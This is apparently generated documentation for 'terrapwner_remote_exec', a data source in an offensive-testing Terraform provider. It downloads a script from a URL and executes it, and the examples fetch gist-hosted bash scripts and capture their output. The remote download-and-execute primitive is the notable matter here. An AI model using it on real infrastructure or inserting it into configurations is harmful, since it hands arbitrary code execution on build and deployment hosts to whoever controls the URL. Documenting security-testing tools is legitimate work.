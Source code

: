 ```yaml
---
# generated by https://github.com/hashicorp/terraform-plugin-docs
page_title: "terrapwner_remote_exec Data Source - terrapwner"
subcategory: ""
description: |-
  Downloads and executes a script from a URL.
---
```


# terrapwner_remote_exec (Data Source)

Downloads and executes a script from a URL.

## Example Usage

```terraform
terraform {
  required_providers {
    terrapwner = {
      source = "hashicorp.com/edu/terrapwner"
    }
  }
}

provider "terrapwner" {}

# Basic bash script execution
data "terrapwner_remote_exec" "basic" {
  url            = "https://gist.githubusercontent.com/xen0ldog/6cf803a82b15455ea17aa442b2862491/raw/b5773dd40e9cd26ece7c3cff578d5af704548516/test.sh"
  interpreter    = "bash"
  expect_success = true
}

# Bash script with arguments
data "terrapwner_remote_exec" "with_args" {
  url            = "https://gist.githubusercontent.com/xen0ldog/6cf803a82b15455ea17aa442b2862491/raw/b5773dd40e9cd26ece7c3cff578d5af704548516/test.sh"
  interpreter    = "bash"
  args           = ["arg1", "arg2"]
  expect_success = true
}

# Non-existent script
data "terrapwner_remote_exec" "non_existent" {
  url           = "https://example.com/scripts/non-existent.sh"
  interpreter   = "bash"
  fail_on_error = false
}

# Script that's expected to fail
data "terrapwner_remote_exec" "failing" {
  url            = "https://gist.githubusercontent.com/xen0ldog/6cf803a82b15455ea17aa442b2862491/raw/b5773dd40e9cd26ece7c3cff578d5af704548516/fail.sh"
  interpreter    = "bash"
  expect_success = false
}

# Script that writes to stderr
data "terrapwner_remote_exec" "stderr" {
  url         = "https://gist.githubusercontent.com/xen0ldog/6cf803a82b15455ea17aa442b2862491/raw/b5773dd40e9cd26ece7c3cff578d5af704548516/stderr.sh"
  interpreter = "bash"
}

# Output complete responses
output "basic_response" {
  value = data.terrapwner_remote_exec.basic
}

output "with_args_response" {
  value = data.terrapwner_remote_exec.with_args
}

output "non_existent_response" {
  value = data.terrapwner_remote_exec.non_existent
}

output "failing_response" {
  value = data.terrapwner_remote_exec.failing
}

output "stderr_response" {
  value = data.terrapwner_remote_exec.stderr
}
```

<!-- schema generated by tfplugindocs -->
## Schema

### Required

- `interpreter` (String) Interpreter to use for executing the script (e.g., bash, python, powershell).
- `url` (String) URL of the script to download and execute.

### Optional

- `args` (List of String) Arguments to pass to the script.
- `expect_success` (Boolean) Whether the script is expected to exit with code 0. If true, a non-zero exit code will result in an error.
- `fail_on_error` (Boolean) Whether to fail on any error (download or execution). If false, the data source will continue with default values.

### Read-Only

- `exit_code` (Number) Exit code of the script.
- `stderr` (String) Standard error of the script.
- `stdout` (String) Standard output of the script.
- `success` (Boolean) Whether the script executed successfully.
